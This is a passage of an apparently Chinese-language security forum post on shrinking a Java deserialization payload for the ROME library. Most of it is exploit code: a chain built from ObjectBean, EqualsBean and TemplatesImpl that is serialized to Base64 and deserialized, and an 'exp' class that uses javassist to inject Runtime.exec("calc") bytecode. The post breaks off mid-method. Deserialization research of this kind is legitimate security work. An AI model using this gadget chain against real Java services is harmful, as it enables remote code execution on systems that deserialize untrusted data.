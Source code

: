 ```java
    public static void main(String[] args) throws Exception {

        TemplatesImpl obj = getTemplatesImpl();
        ObjectBean  objb = new ObjectBean(ObjectBean.class, new ObjectBean(String.class, "1"));
        HashMap map = new HashMap();
        map.put(objb,"1");
        ObjectBean exp = new ObjectBean(Templates.class, obj);
        EqualsBean eq = new EqualsBean(ObjectBean.class, exp);
        setFieldValue(objb,"_equalsBean",eq);
        ByteArrayOutputStream baout = new ByteArrayOutputStream();
        ObjectOutputStream oout = new ObjectOutputStream(baout);
        oout.writeObject(map);
        System.out.println(new String(Base64.encode(baout.toByteArray())).length());
        ByteArrayInputStream bain = new ByteArrayInputStream(baout.toByteArray());
        ObjectInputStream oin = new ObjectInputStream(bain);
        oin.readObject();
    }
}
```

还差一点点，这个师傅想到了一种 [方法](http://max666.fun/?thread-46.htm)

会不会序列化对象中携带的一些属性是反序列的时候用不到的？

由于最终只有map进行了序列化，所以只针对map测试即可，将里面的一些属性赋值为null，测试能不能正常执行

\_toStringBean、\_cloneableBean 和 \_obj 的 \_equalsBean 赋值为 null 后仍然正常执行，并且 payload 大大缩减。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-4787e6133883be87a4be672988bb0b1632508bee.png)

此时已经符合要求了，不过和 Y4?的比起来还是比较极限，不过胜在对链子的处理上更为精细

exp：

```java
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xerces.internal.impl.dv.util.Base64;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import com.test.asm.Resolver;
import javassist.*;
public class ROMEtest2 {
    private static TemplatesImpl getTemplatesImpl() {
        TemplatesImpl templates = null;
        try {
            templates = TemplatesImpl.class.newInstance();
            ClassPool classPool = ClassPool.getDefault();
            classPool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
            CtClass clazz = classPool.makeClass("a");
            String string = "java.lang.Runtime.getRuntime().exec(\"calc\");";
            clazz.makeClassInitializer().insertAfter(string);
            CtClass superC = classPool.get(AbstractTranslet.class.getName());
            clazz.setSuperclass(superC);
            final byte[] classBytes = Resolver.resolve(clazz.toBytecode());
            Field bcField = TemplatesImpl.class.getDeclaredField("_bytecodes");
            bcField.setAccessible(true);
            bcField.set(templates, new byte[][] {classBytes});
            Field nameField = TemplatesImpl.class.getDeclaredField("_name");
            nameField.setAccessible(true);
            nameField.set(templates, "a");
```